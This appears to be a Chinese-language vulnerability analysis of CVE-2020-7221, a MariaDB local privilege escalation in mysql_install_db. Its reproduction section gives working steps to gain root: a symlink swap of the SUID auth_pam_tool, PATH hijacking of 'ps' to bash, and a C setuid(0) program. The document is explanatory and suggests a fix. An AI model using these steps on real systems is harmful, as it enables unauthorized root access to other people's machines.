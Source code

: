 （CVE-2020-7221）Mariadb 提权漏洞
=================================

一、漏洞简介
------------

MariaDB
10.4.7到10.4.11中的mysql\_install\_db允许将特权从mysql用户帐户升级到root用户，因为chown和chmod的执行不安全，如对auth\_pam\_tool\_dir
/ auth\_pam\_tool的chmod
04755的symlink攻击所证明的那样。注意：这不会影响Oracle
MySQL产品，该产品以不同的方式实现mysql\_install\_db。

二、漏洞影响
------------

Mariadb 10.4.7到10.4.11

三、复现过程
------------

#### docker环境搭建：

1.  docker pull mariadb:10.4.8

2.  docker run -it 2ef19234ff46 /bin/bash

#### 漏洞分析

首先定位漏洞点。

    find / -name "mysql_install_db"

![](resource/(CVE-2020-7221)Mariadb提权漏洞/media/rId26.png)

在bash脚本上下文中，如果\$user被定义则能进入「配置不当」漏洞点。

    chown $user "$pamtooldir/auth_pam_tool_dir"

    chmod 0700 "$pamtooldir/auth_pam_tool_dir"

这里配置了auth\_pam\_tool\_dir目录的归属权和所有权，权限归属于\$user。
（这里是可控点之一）

    chown 0 "$pamtooldir/auth_pam_tool_dir/auth_pam_tool" 

    chmod 04755 "$pamtooldir/auth_pam_tool_dir/auth_pam_tool"

这里配置了auth\_pam\_tool文件为0（root）所有权，4755文件权限（4为suid权限）。想要进入这个漏洞点需要\$srcdir变量值长度为0才能触发。

关于suid属性：

> SUID属性一般用在可执行文件上，当用户执行该文件时，会「临时拥有该执行文件的所有者权限」。一旦程序拥有SUID权限的话，运行该程序时会以最高权限运行。

##### 回溯 \$srcdir 与 \$user

1.  \$user

![](resource/(CVE-2020-7221)Mariadb提权漏洞/media/rId28.png)

在脚本传递args参数时可控制\$user变量。

1.  \$srcdir

![](resource/(CVE-2020-7221)Mariadb提权漏洞/media/rId29.png)

也在初始化操作时可控制变量，初始化时为空。

那么想要进入这个漏洞点需要\$srcdir为空，\$user需要设置值。

结合上文描述使用此命令才能触发漏洞点：

    ./mysql_install_db --user=mysql

#### 漏洞复现

寻找suid属性的程序

    find /* -perm -u=s -type f 2>/dev/null

搜索到的suid属性程序「auth\_pam\_tool」替换成我们的恶意suid程序。

    1. rm auth_pam_tool
    2. ln -s /root/pwn auth_pam_tool
    3. export PATH=.:$PATH
    4. ln -s /bin/bash ps

编写一个具有suid权限的恶意程序：

    #include <unistd.h>
    #include <stdlib.h>
    int main(void)
    {
        setuid(0);
        setgid(0);
        system("ps");
        return 0;
    }

![](resource/(CVE-2020-7221)Mariadb提权漏洞/media/rId31.png)

切换回root，在root权限下运行mysql\_install\_db脚本（触发修改chmod命令）

![](resource/(CVE-2020-7221)Mariadb提权漏洞/media/rId32.png)

再回到mysql用户权限下执行auth\_pam\_tool

![](resource/(CVE-2020-7221)Mariadb提权漏洞/media/rId33.png)

提权成功。

可以看到这个漏洞是由于suid与目录权限设置不当，才导致被提权利用的风险。建议在修复中设置auth\_pam\_tool\_dir目录权限为root所有：

    root:mysql  0750 /usr/lib/mysql/plugin/auth_pam_tool_dir

参考链接
--------

> <https://mp.weixin.qq.com/s?__biz=MzU5NDgxODU1MQ==&mid=2247486415&idx=1&sn=0e413fdfd22f21580e0c70251e53a7cb&chksm=fe7a2f57c90da64190913e4f40d5f854dcc0c794ac988ce667f1ba0d4a262575b5c4a67b65a1&mpshare=1&scene=1&srcid=&sharer_sharetime=1582037009796&sharer_shareid=346bf064ccfaeb680ec3e1af3a4fc9a8&key=36a0b0f21e7aca1c7ade662e9184d730b9617a817ebf64e5bbc6048142797fa6b31c917039b5d1308f1d16cf77ba9f43d541a1bd197ead9b66bb01969c4f1bf2c54e19862f1f9bc1f449495c27554e90&ascene=1&uin=MTU0OTU5NDkzMA%3D%3D&devicetype=Windows+10&version=62080079&lang=zh_CN&exportkey=AUm27aB0HayWjmPDBsXi7NU%3D&pass_ticket=VkgA7hk5gRtBGyr1o4%2Bh5PlNbfx095JODofk2U16AOMJewFkqv%2BeZkeziLm0G2um>
